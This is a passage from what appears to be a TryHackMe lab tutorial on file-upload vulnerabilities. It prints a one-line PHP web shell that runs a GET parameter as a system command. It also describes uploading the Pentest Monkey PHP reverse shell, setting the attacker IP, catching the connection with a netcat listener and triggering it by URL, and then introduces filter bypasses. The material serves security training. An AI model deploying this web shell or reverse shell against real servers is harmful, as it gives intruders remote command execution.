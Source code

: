 `<?php   Â  Â  echo system($_GET["cmd"]);   ?>`Â Â Â   

This code takes a GET parameter and executes it as a system command. It then echoes the output out to the screen.

Let's try uploading it to the site, then using it to show our current user and the contents of the current directory:

![](https://i.imgur.com/CU0Uyx5.png)  

Success!

We could now use this shell to read files from the system, or upgrade from here to a reverse shell. Now that we have RCE, the options are limitless. Note that when using webshells, it's usually easier to view the output by looking at the source code of the page. This drastically improves the formatting of the output.  

---

_Reverse Shells:_

The process for uploading a reverse shell is almost identical to that of uploading a webshell, so this section will be shorter. We'll be using the ubiquitous Pentest Monkey reverse shell, which comes by default on Kali Linux, but can also be downloadedÂ [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php). You will need to edit line 49 of the shell. It will currently sayÂ `$ip = '127.0.0.1';Â  // CHANGE THIS   `Â -- as it instructs, changeÂ `127.0.0.1`Â to your TryHackMe tun0 IP address, which can be found on theÂ [access page](https://tryhackme.com/access). You can ignore the following line, which also asks to be changed. With the shell edited, the next thing we need to do is start a Netcat listener to receive the connection.Â `nc -lvnp 1234`:

![](https://i.imgur.com/ysY306E.png)

Now, let's upload the shell, then activate it by navigating toÂ `http://demo.uploadvulns.thm/uploads/shell.php`. The name of the shell will obviously be whatever you called it (`php-reverse-shell.php`Â by default).

The website should hang and not load properly -- however, if we switch back to our terminal, we have a hit!

![](https://i.imgur.com/he0hbiR.png)

Once again, we have obtained RCE on this webserver. From here we would want to stabilise our shell and escalate our privileges, but those are tasks for another time. For now, it's time you tried this for yourself!

---

Navigate toÂ `shell.uploadvulns.thm`Â and complete the questions for this task.


# Filtering
---
Up until now we have largely been ignoring the counter-defences employed by web developers to defend against file upload vulnerabilities. Every website that you've successfully attacked so far in this room has been completely insecure. It's time that changed. From here on out, we'll be looking at some of the defence mechanisms used to prevent malicious file uploads, and how to circumvent them.

---